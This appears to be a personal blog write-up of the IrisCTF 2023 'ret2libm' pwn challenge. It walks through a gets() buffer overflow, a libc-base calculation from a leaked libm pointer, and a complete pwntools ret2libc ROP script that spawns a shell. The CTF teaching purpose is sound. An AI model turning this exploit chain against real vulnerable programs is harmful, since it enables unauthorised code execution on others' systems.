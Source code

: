 +++ 
tags = ["ctf", "pwn"] 
categories = ["CTF Writeups", "pwn"] 
date = "2023-1-9" 
description = "A relatively easy `pwn` challenge similar to classic ret2libc" 
title = "ret2libm - IrisCTF 2023"
+++

# Overview

`ret2libm` was the 2nd most solved `pwn` challenge of [IrisCTF 2023](https://ctftime.org/event/1774), written by `sera`.

Description:
> I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?

We are provided with a zip file containing a binary, source code, `libc`, `libm`, and Makefile.

{{< code language="c" title="chal.c" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
#include <math.h>
#include <stdio.h>

// gcc -fno-stack-protector -lm

int main(int argc, char* argv) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char yours[8];

    printf("Check out my pecs: %p\n", fabs);
    printf("How about yours? ");
    gets(yours);
    printf("Let's see how they stack up.");

    return 0;
}
{{< /code >}}

{{< code language="makefile" title="Makefile" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
chal: chal.c
    gcc -fno-stack-protector chal.c -o chal -lm
{{< /code >}}

The `gets()` function is clearly a classic buffer overflow vulnerability as it reads in any amount of bytes regardless of what the buffer `yours[8]` can actually hold. Therefore we can overwrite the return pointer `rip` and control what code it executes next.

There also isn't a canary we need to bypass.

``` 
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Using `pwndbg` we find the offset to be `16` bytes until we overwrite the return pointer.

# Exploitation

The next step is to do a classic `ret2libc`. However, there is ASLR that we need to bypass, as the `libc` library is loaded into a different address each time. The program just so happens to give us a leak from the `libm` library which *should* allow us to calculate the `libc` base address.

```c
printf("Check out my pecs: %p\n", fabs);
```

I assumed the `fabs` address would be a **constant offset** from the `libc` base address, so after finding that offset we should be able to calculate it.

{{< image src="./img/procmap.png" alt="" position="center" style="border-radius: 5px;" >}}

`libc` base shown here is `0x7f0f11c0b000`, the `fabs` leak was `0x7f0f11e2e4d0`, so calculating `fabs - libc = 0x7f0f11e2e4d0 - 0x7f0f11c0b000 = 0x2234d0` we get an offset of `0x2234d0`. So to calculate the libc base address from the fabs leak, we simply do `libc.address = fabs - 0x2234d0`

**WAIT!** - The `libm` and `libc` binary used by our linux system is probably different to the ones given! We need to patch the binary to use the provided libraries `libc-2.27.so` and `libm-2.27.so`.

`pwninit` is a popular tool for this, however, it only links the `libc` file - we need to link both `libc` and `libm`. Therefore we will use `patchelf` (which pwninit uses anyways).

Making a copy of the binary `chal_patched` and running `patchelf --add-needed libm-2.27.so chal_patched` and `patchelf --add-needed libc-2.27.so chal_patched` we have linked the binary to use those libraries instead of our system ones!If we didn't do so, our payload may work on our system, but not the remote as they are using different libraries with different addresses and sizes.

Now that we've linked the correct libraries, we need to recalculate the offset `0x7ffff7a66cf0 - 0x7ffff7644000 = 0x422cf0`.

Okay lets setup a pwntools script to automate this!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug (gdb -p <PID>)

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")
```

We can reaffirm that the address is correct by using `gdb -p <PID>` to attach to the process, and check if the calculated address is correct.

{{< figure src="./img/libcbasecalc.png" alt="" position="center" style="border-radius: 8px;" caption="<i>and it indeed is...</i>" captionPosition="left" captionStyle="" >}}

Now we have the `libc` address we can do a standard `ret2libc`. I will not go in-depth on this as it's covered a lot, check out [this amazing resource](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc) if you want to fully grasp it.

Using `ROPgadget` to find gadgets in `libc` (I chose `libc` instead of the binary as we already had its base address, didn't want to do another calculation), we find the required `pop rdi; ret` gadget as per [64 bit calling conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions#64-bit) to pass the `/bin/sh` string into `system()`, and another `ret` gadget for stack alignment.

Now we simply return to libc!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")

pop_rdi = libc.address + 0x000000000002164f
ret = libc.address + 0x00000000000008aa

system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

payload = flat(
    b"A" * offset,
    ret, # stack alignment
    pop_rdi,
    binsh,
    system,
    0x0
)

p.sendline(payload)
p.interactive()
```

Running this we indeed get a shell!

{{< image src="./img/yayshell.png" alt="" position="center" style="border-radius: 5px;" >}}

Now all we have to do is to connect to remote and do the same ... right? Apparently not. Running the script gives us an EOF, meaning the program crashed or ended.

{{< image src="./img/verysad.png" alt="" position="center" style="border-radius: 5px;" >}}

This is the last thing we want to see - our exploit working locally, but not on remote! When this happened I first thought I didn't link the libraries correctly, but after relinking and additional testing that didn't seem to be the case. Having no other idea what it could be, I opened a ticket on the [discord server](https://discord.com/invite/TJMssbJV).

After explaining my issue, the organiser `sera` released a Dockerfile that allowed the remote enviroment to be built on your own computer! This meant we could now debug on an enviroment identical to the remote instance, and potentially find out the issue.

After doing so, my payload unfortunetly still worked without modifications, which was really weird as the enviroment was supposedly identical to the remote instance. `sera` mentioned it could be that the `libc` was in fact *not* a constant offset of `fabs` function from `libm` on the remote instance, which meant the `libc.address` would be wrong.

{{< image src="./img/whynoworklol.png" alt="" position="center" style="border-radius: 5px;" >}}

`sera` verified that the scripts work on their docker as well, so decided to award me the flag anyways regardless of it not working on remote.

{{< image src="./img/wowflag.png" alt="" position="center" style="border-radius: 5px;" >}}

First time I've just been handed the flag by organisers, even in other competitions (*cough* Pecan CTF) where challenges were literally broken and we had the solution, organisers wouldn't award points, so huge thanks to `sera` for the help and flag!

The intended solution was to use a one-gadget in the libc and a libc address already in `rax` to (i assume) calculate the offset.

# Conclusion

Overall this was a pretty fun challenge despite the hours of trying to figure out why it wouldn't work on remote, I only started learning `pwn` recently and was glad theres a CTF with `pwn` challenges I could solve.

In the end we ([PissedEmu](https://ctftime.org/team/160273)) placed `11th` on the [leaderboard](https://ctftime.org/event/1774) which I'm happy about!

Additional thanks to the organisers for hosting IrisCTF 2023, I'll be looking forward to next year's event!

Also, please DM me on Discord at `TheSavageTeddy#7458` if there are issues or things I missed in this blog post as it is my first.